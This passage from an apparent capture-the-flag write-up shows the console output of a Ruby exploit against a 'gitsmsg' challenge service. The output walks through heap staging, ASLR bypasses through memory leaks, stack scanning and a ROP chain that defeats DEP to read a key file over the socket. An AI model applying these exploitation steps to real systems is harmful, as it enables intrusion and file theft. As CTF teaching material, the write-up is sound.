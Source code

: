 We write up to 100 bytes from that buffer back to the main file descriptor of the connection&mdash;that is, back to the socket that I'm communicating through. This descriptor was obtained by reading the right place in memory.

It's simple, but it works! And if all goes according to plan, here's the exploit running:

<pre>
$ <span class="Identifier">ruby</span> <span class="Identifier">sploit</span><span class="Statement">.rb</span>
** <span class="Identifier">Initializing</span>
** <span class="Identifier">Logging</span> <span class="Identifier">in</span>
** <span class="Identifier">Stashing</span> <span class="Identifier">a</span> <span class="Identifier">path</span> <span class="Identifier">to</span> <span class="Identifier">the</span> <span class="Identifier">file</span> <span class="Identifier">on</span> <span class="Identifier">the</span> <span class="Identifier">heap</span>
'/<span class="Identifier">home</span>/<span class="Identifier">gitsmsg</span>/<span class="Identifier">key</span>' <span class="Identifier">stored</span> <span class="Identifier">at</span> <span class="Constant">0xb8c2f848</span>
** <span class="Identifier">Using</span> <span class="Identifier">a</span> <span class="Identifier">memory</span> <span class="Identifier">leak</span> <span class="Identifier">to</span> <span class="Identifier">get</span> <span class="Identifier">the</span> <span class="Identifier">base</span> <span class="Identifier">address</span> [<span class="Identifier">ASLR</span> <span class="Identifier">Bypass</span>]
... <span class="Identifier">found</span> <span class="Identifier">it</span> @ <span class="Constant">0xb77dd000</span><span class="Comment">!</span>
** <span class="Identifier">Reading</span> <span class="Identifier">the</span> <span class="Identifier">file</span> <span class="Identifier">descriptor</span> <span class="Identifier">from</span> <span class="Identifier">memory</span>
... <span class="Identifier">it</span>'<span class="Identifier">s</span> <span class="Constant">4</span><span class="Comment">!</span>
** <span class="Identifier">Searching</span> <span class="Identifier">stack</span> <span class="Identifier">memory</span> <span class="Identifier">for</span> <span class="Identifier">the</span> <span class="Identifier">return</span> <span class="Identifier">address</span> [<span class="Identifier">Another</span> <span class="Identifier">ASLR</span> <span class="Identifier">Bypass</span>]
<span class="Identifier">Reading</span> <span class="Identifier">the</span> <span class="Identifier">stack</span> (<span class="Constant">0xbf800000</span> - <span class="Constant">0xbfffffff</span>)...
... <span class="Identifier">found</span> <span class="Identifier">it</span> @ <span class="Constant">0xbfd0546c</span>
** <span class="Identifier">Generating</span> <span class="Identifier">the</span> <span class="Identifier">ROP</span> <span class="Identifier">chain</span> [<span class="Identifier">DEP</span> <span class="Identifier">Bypass</span>]
** <span class="Identifier">Writing</span> <span class="Identifier">the</span> <span class="Identifier">ROP</span> <span class="Identifier">chain</span> <span class="Identifier">to</span> <span class="Identifier">the</span> <span class="Identifier">stack</span>
** <span class="Identifier">Sending</span> <span class="Identifier">a</span> '<span class="Identifier">quit</span>' <span class="Identifier">message</span>, <span class="Identifier">to</span> <span class="Identifier">trigger</span> <span class="Identifier">the</span> <span class="Identifier">payload</span>
** <span class="Identifier">Crossing</span> <span class="Identifier">our</span> <span class="Identifier">fingers</span> <span class="Identifier">and</span> <span class="Identifier">waiting</span> <span class="Identifier">for</span> <span class="Identifier">the</span> <span class="Identifier">password</span>
<span class="Identifier">The</span> <span class="Identifier">key</span> <span class="Identifier">is</span>: <span class="Identifier">lol</span>, <span class="Identifier">tagged</span> <span class="Identifier">unions</span> <span class="Identifier">for</span> <span class="Identifier">the</span> <span class="Identifier">WIN</span><span class="Comment">!</span>
</pre>
